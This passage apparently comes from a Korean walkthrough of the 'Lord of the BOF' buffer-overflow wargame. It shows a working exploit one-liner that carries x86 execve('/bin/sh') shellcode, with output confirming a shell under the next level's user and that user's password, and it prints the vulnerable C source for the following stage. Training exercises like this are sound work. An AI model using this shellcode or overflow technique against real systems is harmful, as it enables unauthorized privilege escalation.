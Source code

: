 얘는 뭐 buffer 안에 쉘 코드 올리지 못하게 한 거 같은데 역시나 그냥 하던대로 하면 됨.

```shell
[orc@localhost orc]$ ./wolfman `python -c 'print "\x90"*40+"\xf8\xf9\xff\xbf"+"\x10\xfa\xff\xbf"+"\x90"*0x100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
򿽐󿐐1󿿐h//shh/bin⏓ᙰ
                ̀ 
bash$ id
uid=504(orc) gid=504(orc) euid=505(wolfman) egid=505(wolfman) groups=504(orc)
bash$ my-pass
euid = 505
love eyuna
```





## STAGE 6 : wolfman -> darkelf

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf 
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter 
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
